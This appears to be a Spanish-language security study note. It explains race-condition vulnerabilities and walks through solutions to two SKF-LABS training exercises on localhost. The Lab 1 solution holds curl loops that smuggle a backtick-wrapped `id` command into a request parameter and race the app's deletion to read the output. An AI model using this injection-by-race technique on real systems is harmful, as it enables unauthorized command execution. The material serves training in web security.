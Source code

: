 ___________________________
Las **condiciones de carrera** (también conocidas como **Race Condition**) son un tipo de vulnerabilidad que puede ocurrir en sistemas informáticos donde dos o más procesos o hilos de ejecución compiten por los mismos recursos sin que haya un mecanismo adecuado de sincronización para controlar el acceso a los mismos.

Esto significa que si dos procesos intentan acceder a un mismo recurso compartido al mismo tiempo, puede ocurrir que la salida de uno o ambos procesos sea impredecible, o incluso que se produzca un comportamiento no deseado en el sistema.

Los atacantes pueden aprovecharse de las condiciones de carrera para llevar a cabo ataques de denegación de servicio (**DoS**), sobreescribir datos críticos, obtener acceso no autorizado a recursos, o incluso ejecutar código malicioso en el sistema.

Por ejemplo, supongamos que dos procesos intentan acceder a un archivo al mismo tiempo: uno para leer y el otro para escribir. Si no hay un mecanismo adecuado para sincronizar el acceso al archivo, puede ocurrir que el proceso de lectura lea datos incorrectos del archivo, o que el proceso de escritura sobrescriba datos importantes que necesitan ser preservados.

El impacto de las condiciones de carrera en la seguridad depende de la naturaleza del recurso compartido y del tipo de ataque que se pueda llevar a cabo. En general, las condiciones de carrera pueden permitir a los atacantes acceder a recursos críticos, modificar datos importantes, o incluso tomar el control completo del sistema. Por lo tanto, es importante que los desarrolladores y administradores de sistemas tomen medidas para evitar y mitigar las condiciones de carrera en sus sistemas.
_______________

[SKF-LABS Race Condition](https://github.com/blabla1337/skf-labs/tree/master/nodeJs/RaceCondition)
[SKF-LABS Race Condition 2](https://github.com/blabla1337/skf-labs/tree/master/nodeJs/RaceCondition-file-write)

Solución LAB 1

Se descubre que en un campo es posible escribir un comando de la siguiente manera **\`id\`**, pero la APP lo borra instantáneamente por incluir caracteres especiales podemos intentar leer el archivo antes que sea borrado realizando múltiples solicitudes

```bash
# Terminal 1 intentamos ver el resultado del comando haciendo un bucle infinito
while true; do curl -s X GET 'http://localhost:5000/?action=run' | grep "Check this out" | html2text | xargs | grep -vE "hola|Important|Default User"; done
```

```bash
# Terminal 2 intentamos colar el comando en un bucle infinito
while true; do curl -s X GET 'http://localhost:5000/?person=`id`&action=validate';
```

![[Pasted image 20231011162259.png]]
Si todo va bien finalmente en algún punto lograremos ver el comando inyectado

Solución LAB 2

Es un APP que permite colocar un parámetro y te descarga un archivo con el contenido del parámetro, podemos probar generando 2 solicitudes a la vez para ver si podemos ver datos que no colocamos nosotros

```bash
while true; do curl -s X GET "http://localhost:5000/hola" | grep -v "hola"; done
```

````bash
while true; do curl -s X GET "http://localhost:5000/testing" | grep -v "testing"; done
````
Podemos ver el archivo de _**testing**_ siendo que colocamos _**hola**_

![[Pasted image 20231011162901.png]]
_______________________________________________________
